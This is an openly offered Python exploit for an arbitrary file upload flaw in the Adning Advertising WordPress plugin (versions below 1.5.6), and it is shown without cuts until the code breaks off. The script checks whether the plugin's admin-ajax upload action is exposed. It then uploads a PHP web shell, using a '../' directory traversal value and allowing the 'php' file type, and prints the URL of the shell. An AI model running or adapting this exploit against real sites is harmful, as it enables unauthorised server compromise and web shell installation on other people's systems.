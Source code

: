 The full exploit source is shown below:

```python
import os.path
from os import path
import json
import requests;
import sys

def print_banner():
	print("Adning Advertising < 1.5.6 - Arbitrary File Upload")
	print("Author -> space_hen (www.lunar.sh)")

def print_usage():
	print("Usage: python3 exploit.py [target url] [php file]")
	print("Ex: python3 exploit.py https://example.com ./shell.php")

def vuln_check(uri):
	response = requests.get(uri)
	raw = response.text

	if ("no files found" in raw):
		return True;
	else:
		return False;

def main():

	print_banner()
	if(len(sys.argv) != 3):
		print_usage();
		sys.exit(1);

	base = sys.argv[1]
	file_path = sys.argv[2]

	ajax_action = '_ning_upload_image'
	admin = '/wp-admin/admin-ajax.php';

	uri = base + admin + '?action=' + ajax_action ;
	check = vuln_check(uri);

	if(check == False):
		print("(*) Target not vulnerable!");
		sys.exit(1)

	if( path.isfile(file_path) == False):
		print("(*) Invalid file!")
		sys.exit(1)

	files = {'files[]' : open(file_path)}
	data = {
	"allowed_file_types" : "php,jpg,jpeg",
	"upload" : json.dumps({"dir" : "../"})
	}
	print("Uploading Shell...");
	response = requests.post(uri, files=files, data=data )
	file_name = path.basename(file_path)
	if('"success":true' in response.text):
		print("Shell Uploaded!")
		if(base[-1] != '/'):
			base += '/'
		print(base + file_name)
	else:
```